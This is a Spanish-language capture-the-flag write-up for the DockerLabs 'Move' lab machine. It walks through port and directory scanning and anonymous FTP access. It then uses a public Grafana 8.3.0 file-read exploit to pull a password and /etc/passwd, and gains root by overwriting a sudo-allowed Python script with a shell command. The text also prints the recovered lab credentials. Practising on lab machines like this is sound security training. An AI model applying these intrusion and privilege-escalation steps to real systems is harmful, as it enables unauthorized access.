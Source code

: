# 📘 Informe Técnico - Máquina: *Move*

* **Nivel:** Fácil
* **Propósito:** Práctica de análisis de servicios expuestos, reconocimiento de rutas sensibles y escalada de privilegios.
* **Objetivo:** Obtener acceso root a través de la explotación de una configuración sudo insegura.

---

![Logo](Imágenes/2025-05-15_16-55.png)

## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Posteriormente lo descomprimimos con el siguiente comando:

```bash
unzip move.zip
```

Luego desplegamos la máquina vulnerable con:

```bash
sudo bash auto_deploy.sh move.tar
```

![Desplegar](Imágenes/Capturas.png)

Verificamos que el contenedor esté activo mediante un ping:

```bash
ping -c1 172.17.0.3
```

![Ping](Imágenes/Capturas_1.png)

---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

![Nmap Puertos](Imágenes/Capturas_2.png)

Luego usamos `extractPorts` para filtrar los puertos abiertos y lanzamos un escaneo más detallado:

```bash
nmap -sCV -p80,22,21 172.17.0.3 -oG target.txt
```

![Nmap detallado](Imágenes/Capturas_3.png)

### Resultados Destacados:

* **Puerto 80**: Servicio HTTP (servidor web Apache).
* **Puerto 22**: Servicio SSH activo.
* **Puerto 21**: Servicio FTP con acceso anónimo habilitado.

---

## 🌐 Análisis Web

Accedimos al sitio web [http://172.17.0.3/](http://172.17.0.3/) y se muestra la página por defecto de Apache2.

![Pagina](Imágenes/Capturas_4.png)

Realizamos un escaneo de directorios con `gobuster`:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

![Fuzzing](Imágenes/Capturas_5.png)

Se descubrió el archivo **maintenance.html**, el cual revela una ruta interna:

```
/tmp/pass.txt
```

![Fuzzing](Imágenes/Capturas_6.png)

---

## 📁 Acceso al Servicio FTP

Accedemos al servicio FTP con el usuario `anonymous`. Al pedir contraseña, simplemente presionamos **Enter**.

![Fuzzing](Imágenes/Capturas_7.png)

Ejecutamos `ls -la` y navegamos hasta el directorio `mantenimiento`, donde encontramos un archivo llamado `database.kdbx`. Lo descargamos con:

```bash
get database.kdbx
```

![Fuzzing](Imágenes/Capturas_8.png)

---

## 📡 Detección de Servicios Adicionales

Explorando más puertos, descubrimos que el **puerto 3000** está abierto.

![Open](Imágenes/Capturas_9.png)

Accedemos a **[http://172.17.0.3:3000/login](http://172.17.0.3:3000/login)** y encontramos una instancia de **Grafana**. En la parte inferior izquierda se muestra la versión:

```
Grafana v8.3.0 (914fcedb7)
```

![Registro](Imágenes/Capturas_10.png)

---

## 💥 Explotación de Grafana

Buscamos vulnerabilidades con `searchsploit`:

```bash
searchsploit Grafana 8.3.0
```

Identificamos el exploit:

```
Grafana 8.3.0 - LFI/RCE (Python) → multiple/webapps/50581.py
```

Lo descargamos y ejecutamos:

```bash
searchsploit -m multiple/webapps/50581.py
python3 50581.py -H http://172.17.0.3:3000
```

Usamos el exploit para leer `/tmp/pass.txt`, y obtenemos una contraseña:

```
t9sH76gpQ82UFeZ3GXZS
```

![contraseña](Imágenes/Capturas_11.png)

---

## 👤 Enumeración de Usuarios

Ejecutamos el comando `cat /etc/passwd` desde el exploit y encontramos un posible usuario válido:

```
freddy
```

![Usuarios](Imágenes/Capturas_12.png)

---

## 🔐 Autenticación Válida y Escalada de Privilegios

Probamos las credenciales encontradas (`freddy:t9sH76gpQ82UFeZ3GXZS`) en el servicio FTP y accedemos exitosamente.

Dentro del directorio `/opt` encontramos el archivo `maintenance.py`, el cual descargamos con:

```bash
get maintenance.py
```

El archivo solo contenía:

```python
print("Server under beta testing")
```

![py](Imágenes/Capturas_13.png)

Ya conectados como el usuario `freddy`, ejecutamos:

```bash
sudo -l
```

Se nos muestra la siguiente política de sudo:

```
(ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py
```

Esto indica que podemos ejecutar **ese script como root sin contraseña**.

---

## 🚀 Escalada Final a Root

Eliminamos el script original y creamos uno malicioso:

```bash
rm /opt/maintenance.py
echo 'import os; os.system("/bin/bash")' > /opt/maintenance.py
chmod +x /opt/maintenance.py
sudo /usr/bin/python3 /opt/maintenance.py
```

Esto nos otorga una **shell con privilegios root**.

![root](Imágenes/Capturas_13.png)

---

## 📝 Nota Final

Es posible que existan otras formas de comprometer esta máquina, pero esta fue la ruta explotada a partir de la información descubierta.





